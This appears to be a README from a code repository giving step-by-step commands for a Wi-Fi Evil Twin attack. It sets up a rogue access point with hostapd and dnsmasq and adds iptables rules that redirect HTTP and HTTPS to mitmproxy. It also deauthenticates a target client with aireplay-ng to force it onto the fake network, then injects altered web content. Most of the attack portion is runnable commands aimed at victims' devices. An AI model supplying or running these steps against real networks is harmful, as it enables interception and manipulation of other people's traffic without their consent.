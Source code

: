 
# Rundown

These instructions will show how to perform a full Evil Twin Attack.

These steps will involve performing the following:
- Creating a Fake Access Point (AP)
- Traffic Injection

The example will flip any website the user goes to.

# Requirements
https://zsecurity.org/wp-content/uploads/2020/08/fapCommands.txt

Use an up-to-date Kali Linux Installation.

`apt-get update -y && apt-get upgrade -y`

Creating the AP will require the following packages:
- hostapd (creates the access point)
- dnsmasq (DHCP service)

Manipulating web contents will be done using the following package:
- MITMProxy (sniffs traffic and execute MITM attacks)

Ensure the following files are in the same directory,
and that the related interface and ssid have been provided
inside the files.
- hostapd.conf
- dnsmasq.conf

NOTE: when assigning the interfaces, if the interface is `wlan0`,
then the assignment must be `interface=wlan0mon`.

The ssid is just the name of the Wifi (or access point) to be displayed.

# Instructions

Open a root or privileged terminal.
It is assumed from here on that all commands are
executed with privileges, or as the root user.

Alternatively, you may execute the commands on a regular
terminal by prefixing all the following commands with `sudo`.

Ex.
**sudo** airmon-ng check

## Enable monitor mode on wifi interface to be used
The interface will be referred to as `wlan1`.

`airmon-ng start wlan1`

This will create temporarily create a new interface wlan1**mon**.
We will be referring to interface using this new name.

## Route Table and Gateway

```
ifconfig wlan1mon up 192.168.1.1 netmask 255.255.255.0
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```

## Internet

This next step can be skipped if you do not need to give the
connecting computers internet access.

If you do, this step will require an additional interface
that is connected to the internet.

For this example, that interface will be referred to as `wlan0`,
but the interface can be specified as a wireless card too.

This step modifies the firewall of the machine temporarily
(the changes will be deleted on reboot) to allow connecting
machines to have internet access.
Commands to undo the following changes will be provided.

There are generally two methods of sharing internet:
by bridged network or Network Address Translation (NAT).

A bridged network will cause connecting computers to appear to
access the same **interface** and **subnet** that's used by the host computer.
This is more permissive, and generally not secure.

A good NAT setup (with ip forwarding/masquerading and DHCP service)
will put connecting computers to a dedicated subnet and data from/to
that subnet is translated accordingly, similar to how a router connects
a client to the internet.

In these instructions, we will be setting up a NAT.

Run the following commands:

```
iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan1mon -j ACCEPT
iptables --table nat --append PREROUTING -i wlan1mon -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables --table nat --append PREROUTING -i wlan1mon -p tcp --dport 443 -j REDIRECT --to-port 8080
echo 1 > /proc/sys/net/ipv4/ip_forward
```

To undo these commands:
```
iptables --table nat --delete POSTROUTING --out-interface wlan0 -j MASQUERADE
iptables --delete FORWARD --in-interface wlan1mon -j ACCEPT
iptables --table nat --delete PREROUTING -i wlan1mon -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables --table nat --delete PREROUTING -i wlan1mon -p tcp --dport 443 -j REDIRECT --to-port 8080
echo 0 > /proc/sys/net/ipv4/ip_forward
```

## Creating Access Point

Start each service on its own (root, or run with privileges using `sudo`)
terminal.

```
hostapd hostapd.conf
dnsmasq -C dnsmasq.conf
```

## Deauthenticating Client
https://charlesreid1.com/wiki/Evil_Twin/Setup
https://xerosploit.readthedocs.io/en/latest/proxying/http.html

We need to first locate the MAC address of the target client.
This will require using the MAC address of the `Good Twin` our
host is replicating.

Assume in this case that the Good Twin's MAC addr is: AA:BB:CC:DD:EE

```
airodump-ng -d AA:BB:CC:DD:EE wlp4s0
```

You should eventually see the client, and their MAC Address.
In this example, we will assume that address to be EE:DD:CC:BB:AA

This next step will use that information to kick the target client
out of the Good Twin.

```
aireplay-ng -0 1 -a AA:BB:CC:DD:EE -c EE:DD:CC:BB:AA wlp4s0
```

Assuming the fake access point is setup accordingly, this process
should cause the target client to automatically connect to that AP
instead of the Good Twin.

## Traffic Injection
https://charlesreid1.com/wiki/MITM/Traffic_Injection

Our example will perform an HTML Injection that flips the web content
the user is trying to view.

```
mitmproxy --set tls_version_client_min=SSL3 --mode transparent --showhost -s flip.py
```

